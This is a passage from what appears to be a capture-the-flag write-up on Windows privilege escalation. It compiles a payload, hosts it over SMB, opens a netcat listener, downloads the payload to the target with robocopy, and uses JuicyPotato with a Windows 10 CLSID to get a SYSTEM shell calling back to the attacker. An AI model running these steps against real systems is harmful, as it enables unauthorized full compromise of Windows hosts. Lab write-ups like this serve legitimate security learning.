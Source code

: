 Compile as follows:

```bash
i686-w64-mingw32-gcc bubba.c -o bubba.exe -s -lws2_32
```

Host & transfer the binary to the target over SMB:

```bash
# on kali, host payload
sudo impacket-smbserver -smb2support BUBBA .
# on klai, start listener
nc -nvlp 7777
# on target, download payload
robocopy.exe \\10.10.14.27\BUBBA c:\users\destitute bubba.exe /copy:DT /w:1 /r:1 /v
```

Now trigger execution:

```bash
c:\users\destitute\JuicyPotato.exe -l 9876 -p c:\users\destitute\bubba.exe -t *
```

But this produces the following error:

```
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9876
COM -> recv failed with error: 10038
```

This is because the defaul COM object CSLID `{4991d34b-80a1-4291-83b6-3328366b9097}` is not valid on Windows 10. Go here and find a CLSID that will work for Windows 10 Enterprise (version found from `systeminfo`) for SYSTEM access:

- https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
- Using the CSLID for `XblGameSave` below

```bash
c:\users\destitute\JuicyPotato.exe -l 9876 -p c:\users\destitute\bubba.exe -t * -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```

And this returns a shell as SYSTEM:

![root1](./conceal/root1.png)

---